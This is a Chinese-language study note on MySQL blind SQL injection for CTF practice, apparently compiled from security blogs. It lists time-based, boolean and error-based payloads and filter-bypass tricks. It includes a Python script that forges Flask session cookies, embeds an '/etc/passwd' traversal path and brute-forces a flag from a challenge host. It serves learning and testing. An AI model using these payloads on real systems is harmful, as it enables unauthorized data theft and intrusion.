








# 文章
[一文搞定MySQL盲注 | 颖奇L’Amore](https://www.gem-love.com/2022/01/26/%E4%B8%80%E6%96%87%E6%90%9E%E5%AE%9AMySQL%E7%9B%B2%E6%B3%A8/#undefined)<br />[CTF中几种通用的sql盲注手法和注入的一些tips - 安全客，安全资讯平台](https://www.anquanke.com/post/id/160584#h3-13)<br />[mysql 延时注入新思路 - 先知社区](https://xz.aliyun.com/t/2288)<br />[一文搞定MySQL盲注 _ 颖奇L'Amore.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1690108061000-ebdfad88-0f99-43e4-8e52-4e5f6c77da93.pdf)
# SELECT 语句
```python
SELECT = 'select database()' # 数据库
SELECT = 'select version()'
SELECT = 'select user()'
SELECT = 'select group_concat(schema_name) from information_schema.schemata'
SELECT = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
SELECT = 'select group_concat(column_name) from information_schema.columns where table_name="TABLE_NAME"'
SELECT = 'select group_concat(COIUMN_NAME) from TABLE_NAME'
```
# 字符串截取方法
### substr(string, start, length)
```plsql
select substr(SELECT, {}, 1)
```
### mid(string, start, length)
```plsql
select mid(SELECT, {}, 1)
```
### right(string, length)
表示截取字符串的从右往左的几位子字符串<br />技巧：和`ascii` / `ord`函数一起使用，ascii()或ord()返回传入字符串的首字母的ASCII码。ascii(right(所截取字符串, x))会返回从右往左数的第x位的ASCII码
```plsql
select ascii(right(SELECT, {}))
select ord(right(SELECT, {}))
```
### left(string, length)
表示截取字符串的从左往右的几位子字符串<br />技巧：和`reverse()` + `ascii()` / `ord()`一起使用。ascii(reverse(left(所截取字符串, x)))会返回从左往右数的第x位的ASCII码
```plsql
select ascii(reverse(left(SELECT, {})))
select ord(reverse(left(SELECT, {})))
```
### regexp
用来判断一个字符串是否匹配一个正则表达式。这个函数兼容了截取与比较
```plsql
select binary SELECT regexp <正则>
```
<br />但是直接`字符串 regexp 正则表达式`是大小写不敏感的，需要大小写敏感需要加上`binary`关键字（`binary`不是`regexp`的搭档，需要把`binary`放到字符串的前面而不是`regexp`的前面，MySQL中`binary`是一种字符串类型）：
### rlike
和`regexp`一样
### trim([{BOTH | LEADING | TRAILING} [remstr] FROM string)
```plsql
SELECT TRIM(LEADING i FROM (select database())) = TRIM(LEADING i+1 FROM (select database()));
SELECT TRIM(LEADING i+2 FROM (select database())) = TRIM(LEADING i+1 FROM (select database()));
```
```plsql
#!/usr/bin/env python3
#-*- coding:utf-8 -*-
#__author__: 颖奇LAmore www.gem-love.com

import requests as req 
import os 
from urllib.parse import quote
import base64

def getsession(username):
    def getcmd(cmd):
        cmdpfx = '''python3 ./Y1ngTools/flask-session-cookie-manager/flask_session_cookie_manager3.py encode -s 'ookwjdiwoahwphjdpawhjpo649491a6wd949awdawdada' -t '''
        return cmdpfx + f''' "{cmd}" '''
    session = "{'islogin': True, 'pic': '../../../../../../etc/passwd', 'profiles': 'Administrator user, with the highest authority to the system', 'user': 'US3RN4ME'}"
    session = session.replace('US3RN4ME', username.replace("'", "\\'"))
    res = os.popen(getcmd(session)).read()
    return res.replace('\n', '')

def readfile(r):
    try:
        res = r.text.split('base64,')[1].split("\" width=")[0]
    except:
        print("不存在")
        exit(0)
    print(base64.b64decode(res.encode()).decode('utf-8'))

burp0_url = "http://eci-2ze2ptl1d7s4w0vn6x9d.cloudeci1.ichunqiu.com:8888/home"
burp0_cookies = {"Hm_lvt_2d0601bd28de7d49818249cf35d95943": "1636507075", "__jsluid_h": "c7d0c61afe2b3dd7eaeaa660783dab2d", "session": ".eJxdjEEOgzAMBL9i-YzInVufElGDLYUY2Q4IVf17A8dKe5ud-aB40VUqTmGNBtxlxgnHMf1tN52TU1kS1UNMK_av6SKFvAuv9yZVPCyHGjQnG-CUYAgmYFmZPCC3YDWJC0If4JcHbb10C72S7wp-fyh_MkQ.YbSA5Q.vuB7TdIOHJjOxeb0QJe13mBgRkw"}
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8", "Connection": "close"}

def text2hex(s):
    res = ""
    for i in s:
        res += hex(ord(i)).replace("0x", "")
    return "0x" + res

select = 'select group_concat(column_name) from information_schema.columns where table_schema=0x637466'
select = 'select group_concat(f1aggggggg) from flagggishere'
# f1aggggggg
# table flagggishere
res = 'flag{'
for i in range(1,200):
    for ch in range(40, 128):
        payload = f"""' or trim(leading {text2hex(res+chr(ch))} from ({select}))=trim(leading {text2hex(res+chr(ch+1))} from ({select}))='1""".replace(' ', '/**/')
        burp0_cookies['session'] = getsession(payload)
        r = req.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
        try:
            if 'Who are you?' in r.text.split('''<h2>Profiles:''')[1]:
                res += chr(ch+1)
                print("[*] 注入成功", res)
                break 
            else:
                print(ch)
        except Exception as e:
            print(r.text)

        if ch == 127:
            print("[*] 注入完成")
            exit(0)
```
### insert(string, start, length, replacement)
是个字符串替换的函数<br /><br />字符串截取方法
```plsql
SELECT insert((insert(目标字符串,1,截取的位数,'')),2,9999999,''); # 这里截取的位数从0开始数
```
# 比较方法
### =  < >
### like
相比于`=`，`like`中可以使用sql的通配符

| 通配符 | 描述 |
| --- | --- |
| % | 替代 0 个或多个字符 |
| _ | 替代一个字符 |
| [_charlist_] | 字符列中的任何单一字符 |
| [^_charlist_]<br />或<br />[!_charlist_] | 不在字符列中的任何单一字符 |

### rlike / regexp
通过正则可以到截取+比较的作用
### between
```plsql
expression between 下界 and 上界 
```
上界和下界可以相等，即
```plsql
expression = 1
->
expression between 1 and 1
```
### in
类似是否属于该集合
```plsql
expression1 in (expression1, expression2, expression3)
```
由此，可以这样变换
```plsql
expression1 in (expression1)
eg.    binary 'a' in ('a')
```
但要加`binary`，因为同样是大小写不敏感的
### and和减法运算
```plsql
select 1 and ascii('a')-96
```

### or和减法运算
```plsql
select 0 or ascii('a')-96
```

### 异或注入
没有注释符的情况下
```plsql
WHERE zz = 'xx' or '1'^(condition)^'1';
```
### case
代替`if`语句
```plsql
CASE WHEN (表达式) THEN exp1 ELSE exp2 END; # 表示如果表达式为真则返回exp1，否则返回exp2
CASE 啥 WHEN 啥啥 THEN exp1 ELSE exp2 END; # 表示如果(啥=啥啥)则返回exp1，否则返回exp2
```
# 延时盲注
### sleep
```plsql
if((condition), sleep(5), 0);
CASE WHEN (condition) THEN sleep(5) ELSE 0 END;
```
无`if`和`case`的情况
```plsql
sleep(5*(condition))   
```

### benchmark
用法`benchmark(执行多少次，执行什么操作)`
```plsql
select benchmark(10000000, sha1('Ki1ro'))
```
通过修改执行的次数和执行的操作(比如`sha1(sha1(sha1(sha1())))`这样多套几层)，可以精准控制延时时间。
### 笛卡尔积
HEAVY QUERY
```plsql
select count(*) from information_schema.columns A, information_schema B
select sum('A') from information_schema.columns A, information_schema B
select avg('A') from information_schema.columns A, information_schema B
```
### get_lock
可以精准控制延时时间，但是不好用，因为需要维持MySQL的会话，基本用不到。<br />
### 正则
通过正则的状态机不断进行状态转换，增加比配的时长，打到延时的目的。例如：
```plsql
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```
# 布尔报错盲注
例如该源码，并且禁掉了其他延时盲注
```plsql
$con = new mysqli($hostname,$username,$password,$database)
$con->query("select username, password from users where username='$username' and password='$password'");
if ($con->error) {
	die("ERROR")
} else die("查询完成");
```
整体逻辑就是要让他报错
```plsql
if( condition, 报错, 不报错)
case when (condition) then 报错 else 不报错 end
```
## 手工报错的方法
### exp(99999)
`exp(x) = e^x`
```plsql
select if((1=1), exp(99999), 0)
```

### cot(0)
```plsql
select cot(0)
```

### pow(99999, 9999999)
```plsql
select pow(99999, 9999999)
```

### 无if和case
#### exp
`exp()`有临界值，为709，超过这个值会报错<br />condition真则报错：
```sql
exp((1=1)*9999)
exp(709+(1=1))
```
condition假则报错：
```sql
exp(710-(1=2))
```
#### cot
condition真则报错
```sql
cot(1-(1=1))
```
condition假则报错：
```sql
cot(1=0) # 直接把条件放cot()函数里
```
#### pow
condition真则报错：
```sql
pow(1+(1=1),99999)
```
condition假则报错：
```sql
pow(2-(1=1),99999)
```
# Bypass
上面其实已经讲了很多Bypass的方法，比如各种截取和比较的方法其实都是用来做bypass的，这里再简单总结一些其他的
## 空格
### 行内注释（推荐）
`/**/`用来替代空格<br />`select/*woshizhushi*/id/**/from/**/student;`
### 换行符（推荐）
`%0d%0a`也是不错的替代空格的方法。
### 括号
`select(id)from(student);`<br />但是括号不能去括一些mysql自带的关键字，例如不能把from括起来，不作为首选的绕过方法。
### 反引号
对于表名和列名可以用反引号包裹起来。
```sql
select`id`from`student`;
```
## select关键字
### mysql8.0
在MySQL 8.0版本中，`table student` 等价于 `select * from student`;
### 在当前的表查其他字段
在对当前表的列名注入时，可以直接写字段名，而无需select 该字段 from 该表
```sql
select * from student where student_id = '2019122001' and ascii(substr(name,1,1))>0; 
# 这里name直接写，而不需要写成select name from student
```
## 单引号和字符串
### 没有单引号就没有字符串，如何写字符串？

1. 字符串的十六进制形式<br />'abc' 等价于 0x616263
2. unhex()与hex()连用<br />'abc' 等价于unhex(hex(6e6+382179)); 可以用于绕过大数过滤（大数过滤：/\d{9}|0x[0-9a-f]{9}/i）具体转换的步骤是：①abc转成16进制是616263 ②616263转十进制是6382179 ③用科学计数法表示6e6+382179 ④套上unhex(hex())，就是unhex(hex(6e6+382179));
### 没有单引号没办法做SQL注入的参数逃逸

1. 宽字节注入
2. 转义法<br />条件是：用户可以控制一前一后两个参数<br />方法是：前面的参数输入\转义掉单引号，后面参数逃逸出来<br />例如：select * from users where username = '\' and password = 'and 1=1#'
